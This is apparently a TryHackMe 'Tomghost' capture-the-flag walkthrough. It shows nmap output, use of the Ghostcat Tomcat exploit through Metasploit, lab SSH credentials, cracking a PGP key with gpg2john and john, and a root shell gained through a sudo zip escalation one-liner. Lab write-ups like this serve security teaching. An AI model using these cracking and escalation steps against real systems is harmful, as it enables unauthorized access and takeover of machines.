 # Tomghost



### Nmap

```bash
# Nmap 7.91 scan initiated Wed Jan 19 20:20:11 2022 as: nmap -sV -sC -oA nmap/tomghost 10.10.247.170
Nmap scan report for 10.10.247.170
Host is up (0.23s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 19 20:21:10 2022 -- 1 IP address (1 host up) scanned in 58.99 seconds

```

Tomcat exploit: https://apkash8.medium.com/hunting-and-exploiting-apache-ghostcat-b7446ef83e74

run metasploit search exploit ghost use exploit run your get ssh passwd

	skyfuck:8730281lkjlkjdqlksalks

### skyfuck to merlin

Using PGP encryption encrypt the file _credential.pgp_  to decrypt

Import the key:

	gpg --import tryhackme.asc

Decrypt the file:

	gpg --decrypt credentials.pgp

but its ask passwd 

lets do crack tryhackme.asc using gpg2john

```bash
┌──(arundhanush㉿kali)-[~/CTF/THM/tomghost]
└─$ gpg2john tryhackme.asc > hash                                       

File tryhackme.asc
                                                                                                                                                                      
┌──(arundhanush㉿kali)-[~/CTF/THM/tomghost]
└─$ cat hash         
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
                                                                                                                                                                      
┌──(arundhanush㉿kali)-[~/CTF/THM/tomghost]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2022-01-19 21:09) 2.380g/s 2552p/s 2552c/s 2552C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
                           
```

now enter the passwd 

```bash
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

we got it

## Privesc

Privesc using zip

```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip

```

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF

```bash
merlin@ubuntu:~$ mktemp -u
/tmp/tmp.b6PBkM4k8w
merlin@ubuntu:~$ sudo zip /tmp/tmp.b6PBkM4k8w /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root

```

roooted!

## References

https://apkash8.medium.com/hunting-and-exploiting-apache-ghostcat-b7446ef83e74

https://www.dummies.com/article/technology/computers/operating-systems/linux/how-to-use-gpg-in-linux-to-encrypt-files-255873
